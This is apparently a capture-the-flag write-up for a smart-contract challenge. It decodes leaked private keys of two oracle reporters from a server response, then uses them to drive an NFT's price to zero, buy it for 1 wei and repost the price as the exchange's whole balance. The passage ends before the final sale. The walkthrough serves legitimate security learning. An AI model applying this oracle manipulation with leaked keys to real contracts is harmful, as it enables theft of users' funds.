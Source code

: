 > A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each
>
> This price is fetched from an on-chain oracle, and is based on three trusted reporters:
> `0xA73209FB1a42495120166736362A1DfA9F95A105`
> `0xe92401A4d3af5E446d93D11EEc806b1462b39D15`
> `0x81A5D6E50C214044bE44cA0CB057fe119097850c`
>
> Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

### Solution

The server response has 2 long strings which when decoded as a string as suggested by the headers, they return the following:

```
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5
```

```
MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

These look like base64 strings, which we can further decode into:

```
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
```

```
0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

When trying these out as private keys, we obtain the private keys for the last two addresses in the `sources` list, which are the EOAs allowed to post prices to the oracle.

Now that we can use these addresses, we can call `postPrice()` for the "DVNFT" NFTs:

```python
oracle.postPrice("DVNFT",0, _fromLeakedAcc[0])
oracle.postPrice("DVNFT",0, _fromLeakedAcc[1])
```

After posting 0 for each of them, the median price returned by `getMedianPrice()` will return 0, as the median of $\{990, 0, 0\}$ is $0$.

We can then use the attacker account to buy one of these NFTs for 1 wei. We need to send at least 1 wei when buying, as requested by the `buyOne()` function:

```cs
uint256 amountPaidInWei = msg.value;
require(amountPaidInWei > 0, "Amount paid must be greater than zero");
```

After obtaining the NFT, we can post a new price corresponding to the entire balance of the NFT exchange:

```python
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[0])
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[1])
```
